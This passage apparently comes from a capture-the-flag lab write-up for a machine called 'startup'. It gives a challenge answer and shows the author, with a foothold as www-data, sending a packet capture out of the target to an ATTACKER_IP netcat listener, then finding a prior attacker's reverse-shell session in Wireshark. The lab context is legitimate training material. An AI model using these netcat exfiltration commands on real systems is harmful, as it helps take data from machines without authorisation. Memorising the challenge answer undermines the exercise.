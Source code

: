 > What is the secret spicy soup recipe?
> 
> Answer: `love`

Inside the `incidents` directory we find an interesting packet capture file;
```shell-session
www-data@startup:/$ cd incidents/
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Mar  1 05:21 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

Let's fetch it and see what we can find from it:
```shell-session
# On our machine:
$ nc -lvp 8888 > sus.pcapng
listening on [any] 8888 ...
TARGET_IP: inverse host lookup failed: Unknown host
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 33238

# On target machine:
www-data@startup:/incidents$ nc -w 3 ATTACKER_IP 8888 < suspicious.pcapng
```

Upon inspecting the file and packet contents using wireshark, we find that another attacker has previously used a similar method to gain access and has left traces, and upon following the TCP stream from packet 35, we see that it contains the plain text dump for the shell session established by the attacker:
![](revshellsession.png)